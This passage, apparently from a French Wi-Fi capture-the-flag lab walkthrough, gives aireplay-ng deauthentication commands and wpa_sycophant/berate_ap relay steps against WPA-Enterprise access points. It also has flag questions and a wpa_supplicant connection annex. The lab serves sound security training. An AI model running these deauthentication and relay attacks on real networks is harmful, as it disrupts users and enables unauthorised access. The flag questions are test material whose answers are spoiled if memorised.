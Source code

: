 Sur un nouveau Shell on va désauthentifier le client légitime vulnérable à cette attaque :
```
# Shell 2
airmon-ng start wlan0
iwconfig wlan0mon channel 44
aireplay-ng -0 0 wlan0mon -a F0:9F:C2:7A:33:28 -c 64:32:A8:A9:DE:55
```

Enfin il ne reste plus qu'à lancer « wpa_sycophant » et attendre que le client se connecte à « berate_ap » ainsi « wpa_sycophant » va récupérer le résultat du challenge pour s'authentifier sur le point d'accès légitime.
S'il y a un échec sur « wpa_sycophant » alors modifiez la conf tel que : `phase1="peapver=1"`
Lorsque indique que la connexion est établie, dans un nouveau Shell, demandez une adresse IP : 
```
# Shell 4
dhclient wlan3 -v
```
Et récupérez le flag sur l'interface WEB en .1 :

22. Quel est le FLAG obtenu via l'attaque relais sur le PA wifi-regional-tablets ?

Faites pareil avec le point d'accès `wifi-regional` et son client connecté `64:32:a8:a9:de:55`.

23. Quel est le FLAG obtenu via l'attaque relais sur le PA wifi-regional ?





# Annexe wpa_supplicant 

Créez un fichier `wifi.conf` avec le contenu suivant, remplacez `$SSID` par la valeur que vous avez trouvé à l'étape précédente :

```
network={
	ssid="$SSID"
	key_mgmt=NONE
	scan_ssid=1
}
```

Utilisez `wpa_supplicant` pour vous connecter au Wi-Fi :
`sudo wpa_supplicant -Dnl80211 -iwlan2 -c wifi.conf`

Et dans un nouveau terminal, demandez une IP avec dhclient :
`sudo dhclient wlan2 -v`

